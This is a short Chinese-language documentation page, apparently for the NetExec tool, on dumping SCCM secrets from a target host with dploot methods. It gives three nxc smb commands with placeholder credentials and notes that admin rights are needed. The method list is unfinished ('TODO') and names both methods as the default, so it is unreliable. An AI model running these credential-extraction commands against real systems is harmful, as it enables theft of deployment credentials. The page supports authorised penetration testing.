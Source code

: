 # 🆕 导出 SCCM

### 使用 dploot 中的方法从目标导出 SCCM

{% hint style="danger" %}
需要目标域控制器上的域管理员或本地管理员权限
{% endhint %}

```
有 2 种可用方法：   
(默认) wmi - TODO
       disk - TODO (默认)
```

```
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm disk
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm wmi
```
